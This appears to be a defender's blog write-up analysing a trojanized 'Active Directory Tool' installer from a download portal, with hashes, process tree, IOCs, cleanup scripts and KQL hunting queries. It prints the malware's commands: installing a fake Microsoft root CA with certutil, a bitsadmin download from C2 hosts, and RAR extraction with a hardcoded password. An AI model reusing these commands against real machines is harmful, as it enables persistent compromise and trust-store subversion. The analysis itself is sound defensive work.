







A friend who does IT work needed an Active Directory utility and downloaded a free one. It installed without complaint and it works - you get a real AD tool that does real AD things.

What got noticed wasn't the file. It was the behavior coming out of the folder it had dropped things into. He sent me the installer and asked what it actually did.

Short answer: the AD tool is genuine. That is exactly why it works.

## Where it came from

He didn't get it from a forum post, a torrent, or a link in an email. He got it from a listing on **Download.com** - the CNET software portal IT staff have been pulling tools off for twenty years - presented like any other piece of freeware: a product page, a named publisher, a four-star user rating, and a short editors' review.



Listing URL: `https://download.cnet.com/active-directory-tool/3000-2651_4-76641234.html`

If you were an administrator looking for exactly that, there is nothing on this page to make you hesitate. The editors' review is the part worth noting: dated **20 February 2026** and credited to portal staff, it reads as a third party having looked at the software and approved it.

I've redacted the publisher name from the screenshot. It's almost certainly an attacker-supplied persona, but it's also a plausible real person's name, and there's no defensive value in a name anyone can change in five minutes.

## First look

Hashes and file type before touching anything else:



| Attribute | Value |
|---|---|
| Filename | `ADToolSetup.exe` |
| MD5 | `eff5db0471aa7df02bbff7ace4d89f81` |
| SHA256 | `d1df588956398505b3ffc9f6c93f9c6ec55ccdce5a63b65eace2d221911f3482` |
| Size | 1,825,174 bytes |
| Type | PE32 GUI, Nullsoft (NSIS) self-extracting installer |

An NSIS installer. NSIS is a legitimate and very common open-source installer format, and it is also a convenient wrapper for malware: an installer is *supposed* to drop several files and run them, so behavior that would stand out from a normal binary looks routine here.

## The size gives it away first

Run it and you get an ordinary setup wizard. Note "Space required: 132.0KB":



The installer is 1.78 MB. The tool it claims to install is 132 KB, and `Program Files` confirms it afterwards - 132 KB of tool plus a 50 KB uninstaller:



So where does the other 1.6 MB go? Into `%Temp%` at runtime: `updater.exe`, `Rar.exe`, a bundled copy of `certutil.exe`, and a certificate file called `MyCA.cer`. **The decoy is the small part of this file.**

No exploit, no macro, no injection. It just needs an administrator to double-click a tool they already wanted.

## What runs behind the window

While the decoy holds your attention, the installer drops `updater.exe` into `%Temp%` and runs it. That process is the actual malware, and its children tell the whole story:



```
ADToolSetup.exe
 ├─ Active Directory Tool.exe          <- the decoy you're looking at
 └─ updater.exe                        <- the part you're not
      ├─ schtasks /Create ... LogsManager          /XML updater.xml
      ├─ schtasks /Create ... SystemSoundsManager  /XML updater2.xml
      ├─ certutil -addstore -f Root MyCA.cer
      ├─ bitsadmin /reset
      └─ bitsadmin /transfer GoogleUpdater http://<c2>/files/forum.html ...
```

Every one of those is a signed Windows binary being used as intended. There is no custom downloader here to detect.

## Persistence wearing Microsoft's name

Two scheduled tasks, both parked inside real Microsoft task folders:

- `\Microsoft\Windows\Customer Experience Improvement Program\LogsManager`
- `\Microsoft\Windows\Multimedia\SystemSoundsManager`

Both run as SYSTEM, both marked hidden, both triggered at boot and repeating **every eight hours**. Each re-downloads and relaunches the payload, so killing the process just means it returns on the next cycle. Two tasks on two different domains is deliberate redundancy: delete one and the other survives.

"Customer Experience Improvement Program" is a real Windows telemetry feature, and "SystemSoundsManager" sounds like something that manages system sounds. Both are easy to skip over when you are scrolling a task list.

## The part I got wrong the first time

Look at the order in that process tree again. `certutil -addstore -f Root MyCA.cer` is the **third** thing `updater.exe` does - 425 milliseconds after it starts, before `bitsadmin /reset`, before any download, before any network call at all.

I had assumed the rogue certificate was part of the second stage: pull the payload down, then install trust for it. It isn't. **The certificate install is unconditional and it happens immediately.** Both C2 domains were dead when I ran this, so every download failed - and the certificate step fired anyway, exiting successfully.

The certificate itself:



```
$ openssl x509 -in MyCA.cer -inform DER -noout -subject -issuer -dates -fingerprint -sha1
subject= /CN=Microsoft Root Certificate Authority 2012
issuer=  /CN=Microsoft Root Certificate Authority 2012
notBefore=May 24 20:30:41 2015 GMT
notAfter=Dec 31 23:59:59 2039 GMT
SHA1 Fingerprint=F3:D1:7B:79:15:8E:D1:8F:87:DD:EC:AD:12:65:8F:8D:D9:0B:2D:B0
```

Self-signed, valid for another thirteen years, and dropped straight into the machine's Trusted Root store - confirmed by the registry write to `HKLM\SOFTWARE\Microsoft\SystemCertificates\ROOT\Certificates\F3D17B79158ED18F87DDECAD12658F8DD90B2DB0`.

Note what the subject *doesn't* have. A genuine Microsoft root carries a full distinguished name - `O=Microsoft Corporation, L=Redmond, S=Washington, C=US`. This one is a bare common name and nothing else. If you're staring at a root store trying to work out which entry doesn't belong, that's the tell.

Once that certificate is trusted, the operator can sign binaries this machine accepts as legitimately signed, and mint TLS certificates it accepts with no browser warning. It also outlives everything else: removing the malware, deleting the tasks and wiping the files leaves it sitting there, valid until 2039. Most cleanup procedures never look at the root store.

One more detail worth flagging: `certutil.exe` ran from `%Temp%`, not `System32`. The malware brings its own copy, so it doesn't care whether the host has it - and detection keyed to the System32 path won't see it.

**If you're triaging one of these, don't wait to confirm a successful C2 connection before checking the root store.** A machine that got only a couple of seconds of execution can already have the certificate.

## The second stage that never landed

The download loop cycles both C2 domains, using BITS so the traffic comes from a trusted OS service rather than the malware itself:



```
bitsadmin /transfer GoogleUpdater http://<c2>/files/forum.html  ...\lmss.exe.tmp
Rar.exe x -o+ -hp<password>  lmss.exe.tmp  ->  lmss.exe
```

Three things worth noting. The payload is served as `forum.html` - an executable wearing a webpage's name. It arrives as a password-protected RAR with the password hardcoded in the command line, which isn't a mistake: an encrypted archive is opaque to static scanning, and it only becomes a detectable executable after `Rar.exe` unpacks it on the endpoint. And it unpacks to `lmss.exe`, one letter off `lsass.exe`, the process that holds credentials in memory. Combined with a lure aimed at administrators, that points clearly at credential theft.

Both domains were unresolvable, so I never got the final binary:


Microsoft's domains either side of it resolve fine - DNS was working, the C2 simply wasn't there. The delivery machinery is intact. This fails today and works the moment that infrastructure comes back, and those tasks keep asking every eight hours, forever, with no back-off.

**A dead C2 is not a security control.** Remediate against what malware is built to do, not what it happened to achieve on the day you found it.

## A clean file doing dirty things

This is the most useful part of the story. The installer was not blocked on download and not blocked on install. Judged as a file - reputation, signature, what a scanner sees on disk - it looked fine. The malicious code is packed inside an installer next to a genuine tool, and the container gives up nothing.

What surfaced it was the folder: scheduled tasks written from a user-writable temp path, `certutil` touching the root store, and a trusted OS binary pulling an executable off the internet. None of those are file properties. They only exist once it runs, which is why static inspection had nothing to work with and behavioral detection did.

## Check your own machine

Run these elevated if you think you may have run something similar.

```powershell
# 1. The two hidden scheduled tasks
schtasks /Query /FO LIST /V | Select-String 'LogsManager','SystemSoundsManager'

# 2. The rogue root CA, by thumbprint - unambiguous, no false positives
Get-ChildItem Cert:\LocalMachine\Root |
    Where-Object { $_.Thumbprint -eq 'F3D17B79158ED18F87DDECAD12658F8DD90B2DB0' } |
    Format-List Subject, Issuer, Thumbprint, NotBefore, NotAfter

# 3. Any OTHER impostor claiming to be this CA. A LEGITIMATE Microsoft Root
#    Certificate Authority 2012 may exist - do NOT blindly delete. The fake is
#    self-issued (Subject equals Issuer) with a bare CN and no O/L/S/C.
Get-ChildItem Cert:\LocalMachine\Root |
    Where-Object { $_.Subject -match 'Microsoft Root Certificate Authority 2012' } |
    Format-List Subject, Issuer, Thumbprint, NotAfter

# 4. Staged artifacts and queued BITS jobs
Test-Path "$env:TEMP\updater.exe","$env:TEMP\MyCA.cer","$env:TEMP\Rar.exe","$env:ProgramData\updater.exe"
bitsadmin /list /allusers
```

### Cleaning up

Order matters - kill the retry loop before deleting the files it re-downloads.

```powershell
# 1. Stop the running components
foreach ($p in 'updater','lmss','Rar','bitsadmin') { taskkill /F /IM "$p.exe" 2>$null }

# 2. Delete BOTH tasks - this is what kills the live threat
schtasks /Delete /F /TN "\Microsoft\Windows\Customer Experience Improvement Program\LogsManager"
schtasks /Delete /F /TN "\Microsoft\Windows\Multimedia\SystemSoundsManager"

# 3. Purge queued BITS jobs
bitsadmin /reset

# 4. Remove the rogue CA - verify the thumbprint against check #2 first
Remove-Item -Path "Cert:\LocalMachine\Root\F3D17B79158ED18F87DDECAD12658F8DD90B2DB0" -Force

# 5. Delete staged artifacts
Remove-Item "$env:TEMP\updater.exe","$env:TEMP\updater.xml","$env:TEMP\updater2.xml",
            "$env:TEMP\Rar.exe","$env:TEMP\MyCA.cer","$env:TEMP\certutil.exe",
            "$env:ProgramData\updater.exe" -Force -ErrorAction SilentlyContinue
Remove-Item "$env:ProgramData\Microsoft\Windows\Caches\{D56857E2-C34A-2BA5-5029-5B243C12CA53}" -Recurse -Force -ErrorAction SilentlyContinue
```

Then **rotate every credential that touched the host.** The payload ran elevated and the `lmss`/`lsass` theme says what it was after. And be honest about whether cleanup is enough - unknown code ran with privilege on that machine. Re-imaging is the only answer that leaves no doubt, and on an administrator's workstation it's the one I'd pick.

## IOCs

| Item | Value |
|---|---|
| Distribution | Download.com listing for "Active Directory Tool for Windows" - `https://download.cnet.com/active-directory-tool/3000-2651_4-76641234.html` |
| `ADToolSetup.exe` | MD5 `eff5db0471aa7df02bbff7ace4d89f81` |
| `updater.exe` | MD5 `45dc1905e27cebb900fd1e2201678e2a` |
| `Rar.exe` | MD5 `070d15cd95c14784606ecaa88657551e` |
| `MyCA.cer` | MD5 `c0e2ec4ad95824193fdf61acd93eafeb` |
| Rogue root CA | SHA1 `F3D17B79158ED18F87DDECAD12658F8DD90B2DB0`, `CN=Microsoft Root Certificate Authority 2012`, expires 2039-12-31 |
| C2 | `lovinglyforums.xyz`, `robertpaulson.me` |
| URL paths | `/files/forum.html`, `/files/updater.exe` |
| BITS job names | `GoogleUpdater`, `Updater` |
| Tasks | `...\Customer Experience Improvement Program\LogsManager`, `...\Multimedia\SystemSoundsManager` |
| RAR password | `khm2Qf9X-9T1lG8XXpyt` |
| Staging dir | `C:\ProgramData\Microsoft\Windows\Caches\{D56857E2-C34A-2BA5-5029-5B243C12CA53}\` |

### MITRE ATT&CK

| Tactic | Technique |
|---|---|
| Execution / Persistence | **T1053.005** - Scheduled Task |
| Defense Evasion | **T1553.004** - Subvert Trust Controls: Install Root Certificate |
| Defense Evasion / Persistence | **T1197** - BITS Jobs |
| Defense Evasion | **T1036** - Masquerading (Microsoft task names, `lmss.exe`) |
| Defense Evasion | **T1027** - Obfuscated Files (password-protected archive) |

## Worth hunting for

Hashes and domains rotate. These behaviors don't:

- `certutil` with `-addstore` and `Root` - rare and loud on a normal endpoint, and the highest-value query here
- `bitsadmin /transfer` to an external URL
- `schtasks /Create` writing into a `\Microsoft\Windows\` task path from a user-writable directory
- `rar.exe` with `-hp` anywhere outside a dev box
- **one parent process spawning three or more** of `schtasks` / `bitsadmin` / `certutil` / `rar` / `taskkill` within a few seconds

That last one is the strongest single signal, and the one I'd promote to an alerting rule. Individually these are all legitimate admin tools. Five of them from one parent in one burst is not admin work - and it survives everything the operator can cheaply change.

```kusto
// One parent, multiple LOLBins - the pattern that exposed this sample
DeviceProcessEvents
| where FileName in~ ("schtasks.exe","bitsadmin.exe","certutil.exe","rar.exe","taskkill.exe")
| summarize Tools = make_set(FileName), Commands = make_set(ProcessCommandLine),
            FirstSeen = min(Timestamp), LastSeen = max(Timestamp)
        by DeviceName, InitiatingProcessFileName, InitiatingProcessId
| where array_length(Tools) >= 3
| sort by LastSeen desc
```

```kusto
// Rogue root certificate installation - start here, it's low volume
DeviceProcessEvents
| where FileName =~ "certutil.exe"
| where ProcessCommandLine has "-addstore" and ProcessCommandLine has "Root"
| project Timestamp, DeviceName, AccountName, FolderPath, ProcessCommandLine, InitiatingProcessFileName
```

Not running Defender? The same behavior maps to classic logs: process creation is **EventID 4688** or Sysmon Event 1, scheduled task creation is **EventID 4698**, and DNS is Sysmon Event 22. Swap the field names and the logic holds.

## Takeaway

Nothing here is novel tradecraft. What makes it work is the packaging: a tool an administrator was already looking for, that does the job it claims, while a counterfeit root CA goes into the trust store in the first second of execution.

It never had to beat a scanner. It only had to look uninteresting as a file until it was already running, sitting on a download page that gave an administrator every reason to trust it.

Three things I'd take from it. **Attackers target the people with the keys, using the tools those people want** - this lure wasn't a fake invoice, it was a free AD utility, aimed squarely at the population holding privileged credentials. **Check your root certificate store**, because nobody does and it's the most durable foothold in the whole chain. And **detection is not remediation** - the SYSTEM persistence was created during execution regardless, so if a tool like this ran on a machine you own, deleting the tasks isn't enough.

---

*Analysis performed on an isolated system. The listing URL above is published so defenders can block it and so the portal can act on it - it is live malware, do not download it except to a disposable analysis machine. Hashes and domains are published for detection and blocking; host and user identifiers have been withheld.*
